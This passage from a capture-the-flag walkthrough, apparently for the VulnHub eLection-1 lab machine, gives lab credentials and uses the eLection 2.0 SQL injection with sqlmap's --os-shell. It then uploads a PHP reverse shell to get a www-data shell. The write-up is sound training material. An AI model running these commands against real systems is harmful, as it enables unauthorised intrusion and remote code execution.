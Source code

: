 	![](Pasted%20image%2020220215013005.png)

	- `system.log`
2. View `system.log`
	![](Pasted%20image%2020220215013118.png)
	- love:`P@$$w0rd@123`
3. SSH w/  love:`P@$$w0rd@123`

# Initial Foothold (3) - SQLMap OS-SHELL

1. Login to `phpMyAdmin` w/ root:toor
2. Crack the hash w/ an [online tool](https://hashes.com/en/decrypt/hash)
	![](Pasted%20image%2020220215014047.png)
	- 1234:`Zxc123!@#`
3. Proceed to `/election/admin` & login w/  `1234:Zxc123!@#`
	![](Pasted%20image%2020220215014733.png)
4. Search for exploits for `election`

	| Exploit Title                     | Path                  |

	| --------------------------------- | --------------------- |

	| eLection 2.0 - 'id' SQL Injection | php/webapps/48122.txt |

5. Try `php/webapps/48122.txt` 
	1. Login
	2. Proceed to Candidates
	3. Intercept w/ burp, edit request according to `php/webapps/48122.txt`
		![](Pasted%20image%2020220215021139.png)
		![](Pasted%20image%2020220215015906.png)
		- `Right-Click -> Save item -> sqli.txt`
	4. Use SQLMap to insert shell, allowing us to do RCE

		``` 
		┌──(root💀kali)-[~/vulnHub/eLection-1/192.168.110.29/exploit]
		└─# sqlmap -r sqli.txt --level=5 --risk=3 --os-shell -p id
		```

		![](vmware_q5a8vXeBfQ.gif)

6. Download [`php-reverse-shell.php`](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) onto target
	![](Pasted%20image%2020220215020246.png)
7. Obtain www-data shell

	``` 
	┌──(root💀kali)-[~/vulnHub/eLection-1]
	└─# curl http://192.168.110.29/php-reverse-shell.php
	```
